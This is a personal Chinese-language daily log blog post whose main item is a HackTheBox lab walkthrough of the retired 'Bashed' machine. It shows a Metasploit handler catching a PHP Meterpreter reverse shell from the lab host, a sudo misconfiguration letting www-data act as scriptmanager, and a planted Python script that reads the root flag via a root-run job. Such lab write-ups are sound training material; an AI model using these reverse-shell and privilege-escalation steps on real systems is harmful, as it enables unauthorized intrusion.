 ```yaml
---
title: 2021/3/31的修行
date: 2021-4-01 00:03:07
tags: [ '修行' ]
my: XenoAmess
---
```


稍稍 有点 疲倦了

……今天 早点 睡吧

---

### 1. 上班

### 2. 继续学习《设计模式之禅》

这种水平就可以写书吗……

……

看来我的书的日程要提前下了

### 3. 塑形课

### 4. 修改博客样式

### 5. HackTheBox Retired 【Bashed】打掉 （提权看了题解）

上接29日。

#### 5.1 提权

```shell
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.4
LHOST => 10.10.14.18
msf6 exploit(multi/handler) > set LPORT 2468
LPORT => 2468
msf6 exploit(multi/handler) > set ExitOnSession true
ExitOnSession => false
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.16.4:2468 
[*] Sending stage (39282 bytes) to 10.10.10.68
[*] Meterpreter session 3 opened (10.10.16.4:2468 -> 10.10.10.68:56894) at 2021-04-01 02:09:26 +0800
[*] Sending stage (39282 bytes) to 10.10.10.68
[*] Meterpreter session 4 opened (10.10.16.4:2468 -> 10.10.10.68:56896) at 2021-04-01 02:09:28 +0800
```

```shell
meterpreter > whoami
[-] Unknown command: whoami.
meterpreter > sysinfo
Computer    : bashed
OS          : Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64
Meterpreter : php/linux
```

```shell
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.68 - Collecting local exploits for php/linux...
[-] 10.10.10.68 - No suggestions available.
```

啊这

emmmmmmm

看题解看题解

#### 5.2 看题解

Exploring directories on the target quickly reveals `/scripts`, which is owned by the scriptmanager
user. The command `sudo -l` reveals that the www-data user can run any command as
scriptmanager. Running the command `sudo -u scriptmanager bash -i` will spawn a bash shell
and give full read/write access to `/scripts`

```shell
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

```shell
sudo -u scriptmanager bash -i
bash: cannot set terminal process group (761): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/var/www/html/uploads$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py
test.txt
scriptmanager@bashed:/scripts$
```

/scripts/test.py
```shell
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

删掉test.py

新建一个test.py

用它本地的vi盲打也行，wget也行。……在这个shell里用vi坦白说还挺恶心的，不过 想做总能做

/scripts/test.py (改)

```shell
f2 = open("/root/root.txt", "r")
s = f2.read()
f2.close()
f = open("test2.txt", "w")
f.write(s)
f.close()
print(s)
```

为啥要拿root权限嘛

直接拿到flag 它不香嘛

（手动狗头）

